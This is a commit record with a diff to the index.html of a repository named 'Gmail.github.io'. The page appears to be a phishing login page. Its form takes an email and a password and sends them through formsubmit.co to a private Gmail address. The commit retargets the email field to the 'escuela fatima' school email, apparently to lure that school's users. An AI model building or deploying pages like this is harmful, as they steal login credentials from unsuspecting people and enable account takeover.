

Before and after one commit to 227700-JDM/Gmail.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 295-470 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -86,7 +86,7 @@
       action="https://formsubmit.co/aldairabel9@gmail.com"
       method="POST"
       onsubmit="redirectAfterSubmit()">
-      <input type="email" name="email" placeholder="Correo electrónico" required>
+      <input type="email" name="email" placeholder="Correo electrónico de la escuela fatima" required>
       <input type="password" name="password" placeholder="Contraseña" required>
       <button type="submit">Iniciar sesión</button>
     </form>
```
